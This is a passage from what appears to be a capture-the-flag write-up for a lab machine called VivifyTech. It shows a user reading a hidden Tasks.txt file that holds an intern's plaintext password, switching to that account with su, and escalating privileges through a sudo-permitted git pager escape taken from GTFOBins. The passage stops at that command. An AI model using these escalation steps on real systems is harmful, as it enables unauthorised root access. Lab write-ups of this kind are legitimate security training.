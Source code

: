```bash
-rw------- 1 sarah sarah 1.2K Dec 28 05:35 trustdb.gpg

/home/sarah/.gnupg/private-keys-v1.d:
total 8.0K
drwx------ 2 sarah sarah 4.0K Dec 28 05:35 .
drwx------ 3 sarah sarah 4.0K Dec 28 05:35 ..

/home/sarah/.local:
total 12K
drwxr-xr-x 3 sarah sarah 4.0K Dec  5 16:19 .
drwx------ 5 sarah sarah 4.0K Dec 28 05:35 ..
drwx------ 3 sarah sarah 4.0K Dec  5 16:19 share

/home/sarah/.local/share:
total 12K
drwx------ 3 sarah sarah 4.0K Dec  5 16:19 .
drwxr-xr-x 3 sarah sarah 4.0K Dec  5 16:19 ..
drwx------ 2 sarah sarah 4.0K Dec  5 16:19 nano

/home/sarah/.local/share/nano:
total 8.0K
drwx------ 2 sarah sarah 4.0K Dec  5 16:19 .
drwx------ 3 sarah sarah 4.0K Dec  5 16:19 ..

/home/sarah/.private:
total 12K
drwxr-xr-x 2 sarah sarah 4.0K Dec  5 16:19 .
drwx------ 5 sarah sarah 4.0K Dec 28 05:35 ..
-rw-r--r-- 1 sarah sarah  274 Dec  5 16:19 Tasks.txt
ls: cannot open directory '/home/user': Permission denied
```
There is a file `Tasks.txt` in the hidden directory private. We should inspect this file.

```bash
sarah@VivifyTech:/tmp$ cat /home/sarah/.private/Tasks.txt 
- Change the Design and architecture of the website
- Plan for an audit, it seems like our website is vulnerable
- Remind the team we need to schedule a party before going to holidays
- Give this cred to the new intern for some tasks assigned to him - gbodja:4Tch055ouy370N
```
There are credentials for a new intern in this file. We should use this information to switch user.

## Privilege escalation
With the simple `su` command we can switch the user to the intern.
```bash
sarah@VivifyTech:/tmp$ su gbodja
Password: 
```
Again we should first check if we can sudo anything.
```bash
gbodja@VivifyTech:/tmp$ sudo -l
Matching Defaults entries for gbodja on VivifyTech:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    !admin_flag, use_pty

User gbodja may run the following commands on VivifyTech:
    (ALL) NOPASSWD: /usr/bin/git
```
We can sudo `/usr/bin/git`, this is a known vulnerability and can be exploited as explained on [GTFObins](https://gtfobins.github.io/gtfobins/git/#sudo). To gain extra privileges we can simply follow the instructions on this page.
```bash
gbodja@VivifyTech:/tmp$ sudo /usr/bin/git -p help config
```